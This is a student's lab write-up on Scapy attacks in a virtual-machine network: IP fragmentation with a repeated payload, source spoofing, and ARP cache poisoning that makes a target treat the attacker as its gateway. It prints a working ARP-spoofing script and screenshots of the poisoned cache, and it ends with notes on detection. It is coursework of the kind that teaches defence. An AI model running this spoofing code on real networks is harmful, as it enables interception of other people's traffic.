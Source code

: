 ##Lab 6 - Scapy Attacks on ARP (leading to MITM)

As in the previous lab, I have two Ubuntu VM's on an internal network with m0n0wall assigning IPs via DHCP.

Artist's rendering:

                  Attacker                  Target
             _______________          |*\_/*|________
            |  ___________  |        ||_/-\_|______  |
            | |           | |        | |           | |
            | |   0   0   | |        | |   0   0   | |
            | |     -     | |        | |     -     | |
            | |   \___/   | |        | |   \___/   | |
            | |___     ___| |        | |___________| |
            |_____|\_/|_____|        |_______________|
            _|__|/ \|_|_.............._|________|_
             / ********** \      |    / ********** \
            /  ************  \   |   /  ************  \
            -------------------- |  --------------------
                                 |
                                 |
                                 |
                   __/ ///////// /|
                  /              ¯/|
                 /_______________/ |
                |  __________  |  |
                | |          | |  |
                | | m0n0wall | |  |
                | |          | |  |
                | |__________| | /   
                |______________|/ ___/\
                |____>______<_____/     \
              / = ==== ==== ==== /|    _|_
            / ========= === ===/ /   ////
           / ========= === ===/ /   /  / 
          <__________________<_/    ¯¯¯


Warmup Exercise (A): <code>fragment(IP(dst=target)/ICMP()/("DEADBEEF"*25000))</code>

This command will send the payload of "DEADBEEF" 25000 times to the target machine.  By adding in a fragsize, it will fragment into byte segments of 500.

I found an elegant way to do this here [1]:

Note: <code> from scapy.all import *</code> is necessary as <code>from scapy import *</code> doesn't import the modules for my machine

      from scapy.all import *
      import netifaces as nt
      import sys
      
      target="192.168.1.104"
      packet = fragment(IP(dst=target)/ICMP()/("DEADBEEF" * 25000))
      frags=fragment(packet,fragsize=500)
      counter=1
      for fragment in frags:
            print "Packet number"+str(counter)
            print "======================================================="
            fragment.show() #displays each fragment
            counter+=1
            send(fragment)

![Scapy - Nice display!](/images/Lab6-DEADBEEF.png)

The attacking machine sent 406 packets with the payload "DEADBEEF" and it set the MF (More Fragment) bit flag.

Warmup Exercise (B):  <code>IP(src=target,dst=target)/TCP(sport=135,dport=135)</code>
From the attacker side, spoofing the source of the packet:

![Spoofed source](/images/Lab6-spoofed_src_and_des.png)

On the target side I did <code>sudo tcpdump -vv icmp</code> for Warmup Exercise 1 (with the payload) and received the following when attacked from first Ubuntu machine:

![DEADBEEF payload on target!](/images/Lab6-DEADBEEF_on_target.png)

**_Q1: What are the IP/MAC addresses of each VM and the host? Comment on the three pairs of addresses, their relationship to each other; how might these values have been assigned? What do the VMs and host believe is the default gateway?_**

The attacking machine has an IP of 192.168.1.105.  The target has 192.168.1.104.  m0n0wall has an IP of 192.168.1.1 and it's the known gateway for both Ubuntu machines.  m0n0wall assigns the IPs via DHCP that I set up using its GUI.

**_Q2. Examine the arp table (arp –a –n) on VM#1 and report any entries you find._**

I did some research on ARP with <code>man arp</code>.
Unfortunately <code>arp –a –n</code> complains that "-a" is an unknown host but <code>arp</code> provides the table fine.
The only entry is that of the m0n0wall gateway.

**_Q3. Ping VM#2 from VM#1 and report any changes to the state of the ARP table after the ping._**

Before pinging the target machine, there was only the gateway registered in the cache, but after a successful ping the target with its MAC address was registered in the ARP cache.

**_Q4. Manually delete the entry for the VM#2 machine in VM#1s ARP table (arp –d <ip>). Then, run tcpdump or wireshark on VM#2 to view the network traffic. Ping VM#2 again from VM#1. Report on the traffic that you see and use it to explain the way in which VM#1 obtains VM#2's MAC address._**

<code>arp -d 192.168.1.104</code> successfully removed the entry.

<code>tcpdump -vv icmp</code> on the target machine revealed:

![tcpdump of ping](/images/Lab6-tcpdump_ping.png)

**_Q5. From VM#1, using everything observed so far, determine the MAC address of the gateway._**

I believe when I used dhclient to get an IP on boot it registered the MAC address of the gateway in the ARP cache:
m0n0wall.local has a MAC address of 08:00:27:f2:0f:ab

**_Q6. Complete the program by adding lines to the arp_callback method so as to fully specify the ARP reply; you can list the fields in an ARP packet by doing ls(ARP) in Scapy. Explain the rationale for each of your lines of code._**

So far, I have:

    arpout = ARP(op=1, hwdst="impersonating_mac",hwsrc=target_mac, pdst=192.168.1.104)
but I need to fully specify the rest of the values.  Also:

Note to self:

Look into using scapy's <code>arpcachepoison()</code>

Edit: No success with arpcachepoison with either specifying MACs or IPs.

Upon troubleshooting some errors in coding and other little things I realized that the biggest problem was that my two Ubuntu machines had the same MAC address--that will certainly confound the exercise.

After changing the MAC on my attacker machine, it didn't immediately come up until I pulled it up with:

    ifconfig -a
    ifconfig eth3 up

I am getting an ARP request.  There is a name resolution problem.  Perhaps I need a fourth VM that the target VM doesn't know about so that the attack machine can fulfill the request?
![Problem with Name Resolution](/images/Lab6-problem-name_resolution.png)

To clear the target VM's arp cache we can run:

    ip -s -s neigh flush all

The following header with explicit encoding was necessary:

    #!/usr/bin/env python # coding: utf-8
    
    
With the following code I believe I successfully placed the attacking VM into the poisoned ARP cache of the victim machine.
~~~~
#!/usr/bin/env python # coding: utf-8

###The SCAPY script (arpy.py) sees an ARP request from 
###the target machine (for any IP) and then responds to the ARP request
###with a crafted reply that provides the attacker’s MAC address.
###In doing so, the victim is fooled into believing that the requested IP resolves 
###in the local segment to the attacker’s MAC address.


from scapy.all import *
#### Adapt the following settings ####
conf.iface = 'eth3'
###
attack_IP = "192.168.1.105"
attack_mac = "08:00:27:f6:b4:f6"
target_mac = "08:00:27:4a:3e:fa"
target_ip = sys.argv[1]
impersonating_mac = sys.argv[2]
gw_IP = "192.168.1.1"
gw_mac = "08:00:27:f2:0f:ab"

#call the function whenever a new arp packet is sniffed
def arp_callback(pkt):
	#make sure it's arp, a request, and the target is the one asking
	if ARP in pkt and pkt[ARP].op==1 and pkt[ARP].psrc==target_ip:
		#get the packet
		arpin = pkt[ARP]
		#show it
		print("Received an ARP request")
		arpin.display()
		arpout = ARP()
		#make the reply arp packet
		arpout = Ether()/ARP(op="who-has", psrc=gw_IP, pdst=sys.argv[1], hwdst=target_mac)
		print("Sending an ARP reply")
		arpout.display()

		send(arpout, inter=2, loop=1)
		return arpout.sprintf("ARP reply sent!")
		
#main program

if len(sys.argv) !=3:
	print "Usage: ./arpy.py <target_IP> <impersonating_mac>"
	sys.exit(1)

#wait for up to 10 arps and call the arp_callback for each
while True:
	sniff(prn=arp_callback, filter="arp", count= 10)
~~~~	

The ARP response from the attacking machine:

![ARP Response on attacking machine](/images/Lab6-ARP_response.png)

The victim machine now thinks that the attacker is the gateway.  So when the victim tries to ping a non-existent 192.168.1.103, the response is from the attacking machine:
![Victim machine now thinks the attacker is the gateway](/images/Lab6-Thinks_attacker_is_gw.png)

The target's ARP cache has been successfully poisoned:
![ARP cache successfully poisoned](/images/Lab6-ARP_cache_poisoned.png)

**_Q7: Suppose that as a network administrator you wanted to write a SCAPY script that would detect an ARP spoofing attack such as the one conducted by arp.py. Give a high-level description of how your SCAPY script would work._**

I would look into work that has already been done in Bro scripting or another comparable IDS. [2]  I would look into current research into _active_ techniques to check each machine's ARP cache for suspicious gateways.  As far as using Scapy for this, I'd be happy to see how exactly this can be done!

To do:  Look into Snort (Arpspoof), Arpwatch, XArp, Antidote.. and the other side: Arpoison, Ettercap, and Cain & Abel.


[1]: http://rtoodtoo.net/fragmented-ip-packet-forwarding/
[2]: https://github.com/maxfeldman14/brospects/blob/master/arpspoof.bro
